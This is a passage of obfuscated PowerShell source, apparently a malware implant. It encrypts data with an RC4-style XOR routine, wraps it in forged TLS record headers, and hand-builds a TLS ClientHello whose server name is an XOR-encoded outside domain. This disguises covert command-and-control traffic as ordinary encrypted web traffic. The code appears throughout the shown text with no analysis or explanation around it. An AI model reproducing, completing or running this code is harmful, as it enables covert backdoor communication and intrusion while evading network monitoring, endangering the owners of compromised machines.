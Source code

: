 ```powershell
                            $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB], $BBB88BB88BB8BBB8[$B888B8BB888BB88B] = $BBB88BB88BB8BBB8[$B888B8BB888BB88B], $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB]
                        $B88BBB888BBB88B8 = $BBB88BB88BB8BBB8[($BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB] + $BBB88BB88BB8BBB8[$B888B8BB888BB88B]) % 256]
                       $BBBBB8BBB8BBB88B += ($BBBB88888B888BBB -bxor $B88BBB888BBB88B8)
          }
             return ,$BBBBB8BBB8BBB88B
                }
    function lllIIlIIlIllllll {
                  param ([string]$B888BBBBB8B8B8BB)
              $B888B8B8B88B8BB8 = [System.Text.Encoding]::UTF8.GetBytes($B888BBBBB8B8B8BB)
                   $BBBB8888BBBBB8BB = (lIIIlllIIIIllllI -B8BBB8B8BB8BBB88 $BBB88B8B888BBB88 -BBB8BBB8B88B88B8 $B888B8B8B88B8BB8) + (0x02,0x04,0x06,0x08)
                     $B88BBBBBB888888B = [System.BitConverter]::GetBytes([int16]$BBBB8888BBBBB8BB.Length)
        [Array]::Reverse($B88BBBBBB888888B)
       return (0x17, 0x03, 0x03) + $B88BBBBBB888888B + $BBBB8888BBBBB8BB
                }
             function llIIlllllIIIlllI {
                 $B88B888B8888B888 = (IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(168,187,172,183,184,167,240,186,171,169,176,177,176,186,187,172,240,189,177,179) -BB8BB8B8BBB8B8B8 222)
          $BBBB8B8BB888B88B = [System.Text.Encoding]::ASCII.GetBytes($B88B888B8888B888)
            $BB88BBBB88B8888B = [byte[]] ([BitConverter]::GetBytes([UInt16]$BBBB8B8BB888B88B.Length))
                          [Array]::Reverse($BB88BBBB88B8888B)
                       $B88888B888888BB8 = @(0x00) + $BB88BBBB88B8888B + $BBBB8B8BB888B88B
                   $BB8BBBB8B8888BB8 = [byte[]] ([BitConverter]::GetBytes([UInt16]$B88888B888888BB8.Length))
                       [Array]::Reverse($BB8BBBB8B8888BB8)
         $B8888B88BB888B88 = $BB8BBBB8B8888BB8 + $B88888B888888BB8
              $B888B888BBB8B8BB = [byte[]] ([BitConverter]::GetBytes([UInt16]$B8888B88BB888B88.Length))
        [Array]::Reverse($B888B888BBB8B8BB)
                     $B8BB88BBBB8B88B8 = @(0x00,
                0x00) + $B888B888BBB8B8BB + $B8888B88BB888B88
                 $BBBB88B8BB88B88B = @(0x00, 0x0b,0x00,0x04,0x03,0x00,0x01,0x02,
                                 0x00,0x0a,0x00,0x16,0x00,0x14,0x00,0x1d,0x00,0x17,0x00,0x1e,0x00,0x19,0x00,0x18,0x01,0x00,0x01,0x01,0x01,0x02,0x01,0x03,0x01,0x04,
                                            0x00,0x23,0x00,0x00,
                              0x00,0x16,0x00,0x00,
                                      0x00,0x17,0x00,0x00,
                                    0x00,0x0d,0x00,0x1e,0x00,0x1c,0x04,0x03,0x05,0x03,0x06,0x03,0x08,0x07,0x08,0x08,0x08,0x09,0x08,0x0a,0x08,0x0b,0x08,0x04,0x08,0x05,0x08,0x06,0x04,0x01,0x05,0x01,0x06,0x01,
                                      0x00,0x2b,0x00,0x03,0x02,0x03,0x04,
                             0x00,0x2d,0x00,0x02,0x01,0x01,
                                   0x00,0x33,0x00,0x26,0x00,0x24,0x00,0x1d,0x00,0x20,
                          0x35,0x80,0x72,0xd6,0x36,0x58,0x80,0xd1,0xae,0xea,0x32,0x9a,0xdf,0x91,0x21,0x38,0x38,0x51,0xed,0x21,0xa2,0x8e,0x3b,0x75,0xe9,0x65,0xd0,0xd2,0xcd,0x16,0x62,0x54)
           $BB88BB8BB88BB88B = $B8BB88BBBB8B88B8 + $BBBB88B8BB88B88B
          $BBBB8B88888888B8 = [byte[]] ([BitConverter]::GetBytes([UInt16]$BB88BB8BB88BB88B.Length))
         [Array]::Reverse($BBBB8B88888888B8)
     $B8888BBB888B8888 = @(0x03,0x03,0x00,0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08,0x09,0x0a,0x0b,0x0c,
                        0x0d,0x0e,0x0f,
               0x10,0x11,0x12,0x13,0x14,0x15,0x16,0x17,
                        0x18,
               0x19,0x1a,0x1b,0x1c,0x1d,0x1e,0x1f,0x20,0xe0,0xe1,
                   0xe2,0xe3,0xe4,0xe5,0xe6,0xe7,0xe8,0xe9,0xea,0xeb,0xec,0xed,0xee,0xef,0xf0,0xf1,0xf2,0xf3,0xf4,0xf5,0xf6,0xf7,0xf8,0xf9,0xfa,
                     0xfb,0xfc,0xfd,0xfe,0xff,0x00,0x08,0x13,0x02,0x13,0x03,0x13,0x01,0x00,0xff,0x01,0x00)
          $BB8B8BBBB88B8B8B = $B8888BBB888B8888 + $BBBB8B88888888B8 + $BB88BB8BB88BB88B
```